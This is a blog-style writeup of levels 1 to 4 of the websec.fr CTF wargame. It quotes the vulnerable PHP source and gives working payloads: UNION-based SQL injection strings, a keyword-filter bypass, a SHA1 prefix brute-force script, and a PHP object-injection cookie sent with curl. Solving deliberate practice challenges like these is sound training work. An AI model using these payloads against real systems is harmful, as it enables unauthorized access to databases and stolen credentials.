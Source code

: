 ```yaml
---
layout: blog
title: "[writeup] websec.ft wargames CTF Writeup"
date: 2020-05-27T18:23:59.297Z
tags:
  - ctf
  - writeup
---
```

CTF writeup of http://websec.fr/ war-games.

<!--more-->

# websec.fr writeups

## Level 01

```php
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

The level one is straightforward, the source code is given so we just have to use `union select`

```sql
SELECT id,username FROM users WHERE id=1 OR 1=2 union select username,password from users where id = 1 LIMIT 1
```

so the payload is: `1 AND 1=2 union select username,password from users where id = 1`

Explanation:

1. we have to bypass first select by making it false, using `AND {false_statement}` so `1=2` == `false`

2. after making the first term `false` we now can use union select with password as my guest column

## Level 02

```php
class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

the query is just the same as the first level, but with limitation, the query is filtered using `preg_replace`

I’m using php interactive shell to try preg*match, it turns out it does not filter it \_recursively*

```shell
❯ ./psysh
Psy Shell v0.10.4 (PHP 7.3.11 — cli) by Justin Hileman
>>> $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
=> "union|order|select|from|group|by"
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "from");
=> ""
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "frfromom");
=> "from"
```

so we can bypass the query just by modifying forbidden word

final query: `1 and 1=2 UNunionION SELselectECT username,password FRfromOM users where id =1 --`

## Level 03

When doing this challenge, I notice after copying the source code to my text editor, is the `sha1` function is written with argument `fa1se` not `false`. It makes the `sha1`'s parameter raw_output equals to `true`, so the output is raw binary.

So what? we notic that we can truncate the byte with null terminator `\0`. Fortunately, the hash of the password in the challenge contains null byte too:(`7c00249d409a91ab84e3f421c193520d9fb3674b`)

So we can make a hash collision by finding a hash that starts with: `0x7c 0x00`

I wrote a script,

```python
import hashlib
import base64
import codecs
import requests
import re

the_answer = ""

i = 0
while True:
    v = "%x" % i
    v = "0" + v if len(v) % 2 == 1 else v
    v = base64.b64encode(codecs.decode(v, "hex"))
    h = hashlib.sha1(v).digest()[:2]
    if h == b"\x7c\x00":
        the_answer = str(v).replace("b", "").replace("\'", "")
        break
    i += 1


r = requests.post('http://websec.fr/level03/index.php', data={'c': the_answer })
flag = re.search(r'(.*?WEBSEC.*?)\n', r.text)
print(flag.group(0))
```

## Level 04

given this source code, lets analyze the codes:

```php
// source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
```

1. There is unserialize method without input validation, we can assume we can use PHP object injection attack
2. We can abuse the unserialize method by crafting our payload on cookies

```php
//source2.php

<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }

    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }

        $ret = $this->execute ();
        if (false !== $ret) {
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

1. We can see from the source2, the codes implemented magic function `__descruct()`, this magic function will be called automatically without invocation.
2. furthermore, from `__destruct()` method, it will query to database and show `$row[username]` field, so actually we have to craft `UNION` query but it's easier to use `AS` keyword to change from username field to password field

We can craft the payload using this php script:

```php
// payload.php

<?php

class SQL
{
    public $query = 'SELECT password AS username FROM users WHERE id=1';
    public $conn;
}

$serialized = serialize(new SQL());
echo base64_encode($serialized);
```

output generated: `TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9`

try this using curl, or using browser and set your cookie

```shell
❯ curl -b 'leet_hax0r=TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9' http://websec.fr/level04/index.php
```

further reads:

- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/
